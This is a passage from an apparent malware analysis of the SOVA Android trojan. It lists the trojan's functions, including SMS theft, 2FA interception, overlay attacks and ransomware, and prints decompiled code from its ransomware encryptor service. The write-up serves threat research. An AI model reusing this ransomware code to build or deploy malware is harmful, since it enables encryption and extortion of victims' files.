 Now I will start explaining the major functions of the malware such as Stealing SMS and contacts, ransomware, intercept 2FA, overlay attack, forward call, and mute state. In `PingTasks` method, we will find commands from C2 server which will be received to the malware to do the malicous functions. We will show the command from the C2 server and then explain the function of the command.

In this version of SOVA, the malware comes with ransomware capability which will encrypt the victim's files with AES algorithm and the extenstion of the encrypted files will be `.enc`. 

```cs
  public void onCreate() {
        Intrinsics.checkNotNullExpressionValue("Created encryptor service", "TDE(\"Created encryptor service\")");
        RemoteLogger.log$default(this.logger, "Created encryptor service", null, null, null, 14, null);
        super.onCreate();
    }

    @Override  // android.app.Service
    public void onDestroy() {
        super.onDestroy();
        Intrinsics.checkNotNullExpressionValue("Destroyed encryptor service", "TDE(\"Destroyed encryptor service\")");
        RemoteLogger.log$default(this.logger, "Destroyed encryptor service", null, null, null, 14, null);
    }

    private final void onEncryptionEnd() {
        Intrinsics.checkNotNullExpressionValue("Stopped encryptor", "TDE(\"Stopped encryptor\")");
        RemoteLogger.log$default(this.logger, "Stopped encryptor", null, null, null, 14, null);
        this.preferences.isDeviceEncrypted(Boolean.valueOf(true));
        this.stopForeground(true);
        this.stopSelf();
    }

    private final void onEncryptionStart() {
        if((Preferences.isDeviceEncrypted$default(this.preferences, null, 1, null)) && this.mode == WorkType.ENCRYPT) {
            Intrinsics.checkNotNullExpressionValue("Device already encrypted", "TDE(\"Device already encrypted\")");
            RemoteLogger.log$default(this.logger, "Device already encrypted", null, null, null, 14, null);
            this.stopForeground(true);
            this.stopSelf();
        }

        Intrinsics.checkNotNullExpressionValue("Started encryptor", "TDE(\"Started encryptor\")");
        RemoteLogger.log$default(this.logger, "Started encryptor", null, null, null, 14, null);
        Function1 function10 = (Function1)new EncryptorService.onEncryptionStart.1(this);
        this.aesEncryptor.setLog(function10);
        BuildersKt__Builders_commonKt.launch$default(CoroutineScopeKt.CoroutineScope(((CoroutineContext)Dispatchers.getIO())), null, null, ((Function2)new EncryptorService.onEncryptionStart.2(this, null)), 3, null);
    }

    @Override  // android.app.Service
    public int onStartCommand(Intent intent0, int v, int v1) {
        this.startForeground(3, ContextNotificationExtensions.INSTANCE.createManagingServiceNotification(((Context)this)));
        this.mode = intent0 == null || !intent0.getBooleanExtra("decrypt", false) ? WorkType.ENCRYPT : WorkType.DECRYPT;
        this.onEncryptionStart();
        return 1;
    }
```
